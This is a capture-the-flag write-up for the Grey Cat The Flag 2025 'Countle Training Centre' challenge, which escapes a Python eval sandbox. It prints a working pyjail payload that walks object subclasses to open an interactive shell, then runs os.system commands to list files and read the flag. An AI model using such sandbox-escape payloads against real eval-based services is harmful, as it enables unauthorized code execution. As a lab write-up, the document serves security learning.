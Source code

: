 # [MISC] Countle Training Centre
## Description
The Countle World Championships is coming! Time to step up your game and start training! It's just a measly 1,000,000 puzzles a day, anyone can do it.

Author: k-hian feat. jro

nc challs.nusgreyhats.org 33401

## Approach
When we run the program, we are greeted with the following output:

![Program Output](./images/program_output.png)

It seems that we are given a Target Number and a few numbers to build mathematical equations from, as can be inferred when we visit the help menu:

![Help Menu](./images/help_menu.png)

If the challenge answer we send evaluates to the target number, we get a `Correct!` response and the program will display a new challenge, else it will terminate.

There is also an option to view a blacklist, which suggests that we might be able to supply input other than mathematical expressions:

![Blacklist](./images/blacklist.png)

Okay... so let's just create a script to automatically read a Target Number, craft a mathematical expression to evaluate to the Target Number, and submit it. Of course, I did not have any brain cells remaining ~7 hours into the competition so we will ask ChatGPT to do it for us. The code is provided in this repository, named `countle.py`.

![Solving Diligently](./images/solving_diligently.png)

After running the script for ~15 minutes I started to think that perhaps this was not the way to tackle this challenge, especially since having to solve 1,000,000 challenges would mean that I have to let the script run for hours. Furthermore, the script crashed at the 6042nd challenge.

### Source Code Analysis
Looking through the source code, the first thing I noticed was that the blacklist was not implemented properly. There were missing commas within the list, which results in strings being concatenated:

![Improper Blacklist](./images/improper_blacklist.png)

More points of interest that I noticed was the way input validation was performed:

```python
if (not match(r"[0-9+\-*/()]+", expr)):
    return (print(format("~RThat is not a valid expression. Read 'Help' for more info.~E")))
elif (len(expr) > 160):
    return (print(format("~RWhat are you doing with so many characters? Read 'Help' for more info.~E")))
for b in BLACKLIST + [str(t)]:
    if b in expr:
        return (print(format("~RBlacklisted word is not allowed: "+b+"~E")))
if (not checkAnswer(expr, t)):
    print(format(" ~Rtsk tsk tsk...\n Your answer is wrong!\n I'm dissapointed...~E"))
    exit(0)
else:
    print(format(" ~GCorrect!~E\n"))
    sleep(0.1) # rate limit
if (_ == 999999): 
    print(format(" ~GCongrats!! Here is your flag:\n   " + FLAG + "~E"))
    exit(0)
```

Firstly, the Regular Expression (RegEx) they used `[0-9+\-*/()]+` only matches the beginning of a string (our input). Secondly, there is no checking done to ensure that we only use the list of numbers they provide for each challenge. The only caveat is that we are not allowed to input the Target Number itself. We can perform a few tests to verify these observations:

![Improper RegEx](./images/improper_regex.png)
![Unable to use Target Number](./images/unable_to_use_target_number.png)

Honestly, at this point I was pretty lost, and I was stuck until one of my team members asked if this was a `python jailbreak challenge` and I was like `wut?`. Afterwards, I decided to look into what Python Jailbreaking is.

### Python Jailbreak
A `Python jail` is a restricted environment where user input is executed as Python code, but with strict limitations in place. This is typically done using functions like `eval()` or `exec()` combined with restricted built-ins or filters.

A CTF challenge might allow us to type in a Python expression, but:
- Prevent you from importing modules,
- Block access to dangerous built-in functions like `eval()`, `exec()`, `open()`, or `__import__`,
- Remove the entire `__builtins__` namespace.

Jailbreaking in this context means bypassing the restrictions of the Python environment. Even when the usual functions are blocked, Python's introspective capabilities often leave alternate paths open. Players exploit object attributes, class hierarchies, and special dunder methods to regain access to restricted functionality — without using banned keywords directly.

### Perfoming PyJail Attacks 

The above signatures are present within this CTF challenge, as the blacklist restricts the function names and our `__builtins__` name space is set to `None`:

```python
def checkAnswer(expr, target):
    result = eval(expr, {'FLAG':"no flag for you", "__builtins__": None})
    return result == target
```

So what did I do to exploit this newfound knowledge? Like any beginner, I just ripped off some [PyJail Cheatsheet](https://shirajuki.js.org/blog/pyjail-cheatsheet), and tried every single entry, praying that it would somehow work (spoiler alert: it did).

Before we do that however, we need to ensure that our input passes the RegEx and does not include blacklisted words. To do this, our input can use the following format:

```python
1 if PAYLOAD else {int(target)-1} + 1
```

where `PAYLOAD` is whatever we rip off the cheatsheet :)

Eventually, my teammate found an entry that outputs something interesting:

```python
1 if ([s:=().__class__.__base__.__subclasses__,s()[158]()(),s()[-3].write.__globals__['interact']()]) else {int(target)-1} + 1
```

![Interesting Output](./images/interesting_output.png)

With some assistance from my AI friend ChatGPT, we can better understand what this payload actually does:

`().__class__.__base__.__subclasses__`
- `()` is an empty tuple
- `().__class__` → `<class 'tuple'>`
- `().__class__.__base__` → `<class 'object'>` (base of all classes)
- `().__class__.__base__.__subclasses__()` → returns a list of all currently loaded subclasses of object

`s := ...`
- This is the walrus operator (`:=`), used to assign and return a value in an expression
- We're assigning the subclasses function to `s`

`s()[158]()()`
- `s()[158]()` → creates an instance of the `code.InteractiveConsole` class
- `s()[158]()()` → runs it as a callable

`s()[-3].write.__globals__['interact']()`
- `s()[-3]` → accesses one of the last subclasses of `object`, possibly related to file-handling
- `write.__globals__` → retrieves the global scope associated with the `write` method
- `['interact']()` → retrieves the built-in `interact()` function, which starts an interactive Python shell

However, he could not progress further on so I took over. I noticed from the cheatsheet that we were were supposed to enter `code` and then `q` after being thrown into the Python help menu and so that was exactly what I did.

![Python REPL](./images/python_shell.png)

This gave us access to the Python REPL, where we can then run python code. So, the next logical step would be to list the files in the current directory, using the following payload:

```python
import os; os.system('ls')
```

![Files on Server](./images/files_on_server.png)

From the source code, we know that the flag is stored as a variable in `server.py`, which is the `run` file on the server. So now we just need to read that file to reveal the flag.

```python
import os; os.system('cat run')
```

![Flag](./images/flag_revealed.png)

Flag: `grey{4_w0r1D_c1As5_c0Un7L3_p1aY3r_1n_0uR_mId5t}`

Scripts: [solve.py](https://raw.githubusercontent.com/0necloud/CTF-Writeups/refs/heads/main/Grey%20Cat%20The%20Flag%202025/Countle%20Training%20Centre/solve.py)
[countle.py](https://raw.githubusercontent.com/0necloud/CTF-Writeups/refs/heads/main/Grey%20Cat%20The%20Flag%202025/Countle%20Training%20Centre/countle.py)
